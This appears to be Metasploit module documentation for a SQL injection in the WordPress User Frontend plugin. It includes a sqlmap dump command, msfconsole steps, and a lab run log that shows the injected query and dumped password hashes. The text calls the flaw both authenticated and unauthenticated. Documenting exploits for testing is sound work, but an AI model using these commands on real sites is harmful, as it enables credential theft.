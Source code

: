## Vulnerable Application

User Frontend, a WordPress plugin,
prior to 3.5.26 is affected by an authenticated SQL injection via the
`status` parameter.

Remote attackers can exploit this vulnerability to dump usernames and password hashes
from the`wp_users` table of the affected WordPress installation. These password hashes
can then be cracked offline using tools such as Hashcat to obtain valid login
credentials for the affected WordPress installation.

A vulnerable version (3.5.25) of the plugin can be downloaded
[here](https://downloads.wordpress.org/plugin/wp-user-frontend.3.5.25.zip)

The output from running this module will be somewhat similar to the following `sqlmap` command:

```
sqlmap --dbms=mysql -u "http://1.1.1.1/wp-admin/admin.php?page=wpuf_subscribers&status=1*&post_ID=1" --technique T -T wp_users --cookie <cookie> --dump
```

## Verification Steps

1. Install the plugin, use defaults
2. Start msfconsole
3. Do: `use auxiliary/scanner/http/wp_user_frontend_sqli`
4. Do: `set rhosts [ip]`
5. Optionally set `USER_COUNT` to the number of users you want to dump the credentials of.
6. Do: `run`
7. *Verify* that `USER_COUNT` number of users's usernames and password hashes are gathered from the `wp_users` table of the target WordPress installation.

## Options

### ACTION: List Users

This action exploits the unauthenticated SQL injection and lists `USER_COUNT`
users and password hashes from the `wp_users` table of the affected WordPress installation.

### PASSWORD

Password of a wordpress user. Defaults to ''.

### USER_COUNT

If action `List Users` is selected (default), this is the number of users to enumerate the credentials of.
The larger this number, the more time it will take for the module to run.  Defaults to `3`.

### USERNAME

Username of a wordpress user. Defaults to ''.

## Scenarios

### User Frontend 3.5.26 on WordPress 5.7.5 on Ubuntu 20.04
```
resource (userfrontend.rb)> use auxiliary/scanner/http/wp_user_frontend_sqli
resource (userfrontend.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (userfrontend.rb)> set verbose true
verbose => true
resource (userfrontend.rb)> set username admin
username => admin
resource (userfrontend.rb)> set password admin
password => admin
resource (userfrontend.rb)> run
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/wp-user-frontend/readme.txt
[*] Found version 3.5.25 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting Login
[*] Enumerating Usernames and Password Hashes
[!] Each user will take about 5-10 minutes to enumerate. Be patient.
[*] {SQLi} Executing (select group_concat(rQ) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) rQ from wp_users limit 3) DZAJLImA)
[*] {SQLi} Time-based injection: expecting output of length 124
[+] Dumped table contents:
wp_users
========

 user_login  user_pass
 ----------  ---------
 admin       $P$BZlPX7NIx8MYpXokBW2AGsN7i.aUOt0
 admin2      $P$BNS2BGBTJmjIgV0nZWxAZtRfq1l19p1
 editor      $P$BdWSGpy/tzJomNCh30a67oJuBEcW0K/

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
